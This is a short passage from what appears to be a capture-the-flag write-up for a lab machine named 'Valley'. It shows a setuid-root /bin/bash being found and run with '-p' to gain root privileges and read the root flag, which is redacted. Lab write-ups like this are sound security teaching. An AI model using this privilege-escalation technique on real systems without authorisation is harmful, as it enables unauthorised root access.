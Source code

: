 ```tsx
valley@valley:/home$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Execute it and become `root` user → Flag is our now!

```tsx
valley@valley:/home$ /bin/bash -p
bash-5.0# id
uid=1000(valley) gid=1000(valley) euid=0(root) groups=1000(valley),1003(valleyAdmin)
bash-5.0# whoami
root
bash-5.0# ls
root.txt  snap
bash-5.0# cat root.txt
THM{HIDDEN}
```